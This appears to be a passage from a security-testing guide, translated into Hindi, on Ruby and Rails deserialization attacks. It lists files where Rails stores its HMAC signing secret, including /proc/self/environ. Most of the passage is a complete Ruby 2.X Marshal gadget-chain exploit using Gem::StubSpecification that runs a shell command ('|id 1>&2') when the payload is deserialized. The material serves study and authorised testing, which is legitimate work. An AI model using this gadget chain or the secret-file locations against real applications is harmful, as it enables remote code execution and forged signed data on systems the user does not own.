 Serialized ऑब्जेक्ट्स को सुरक्षित करने के लिए, **Ruby HMAC (Hash-Based Message Authentication Code)** का उपयोग करता है, जो डेटा की अखंडता और प्रामाणिकता सुनिश्चित करता है। इस उद्देश्य के लिए उपयोग की जाने वाली कुंजी कई संभावित स्थानों में से एक में संग्रहीत होती है:

* `config/environment.rb`
* `config/initializers/secret_token.rb`
* `config/secrets.yml`
* `/proc/self/environ`

**Ruby 2.X सामान्य deserialization से RCE गैजेट श्रृंखला (अधिक जानकारी के लिए** [**https://www.elttam.com/blog/ruby-deserialization/**](https://www.elttam.com/blog/ruby-deserialization/)**)**:
```ruby
#!/usr/bin/env ruby

# Code from https://www.elttam.com/blog/ruby-deserialization/

class Gem::StubSpecification
def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
def marshal_dump
[$dependency_list]
end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


```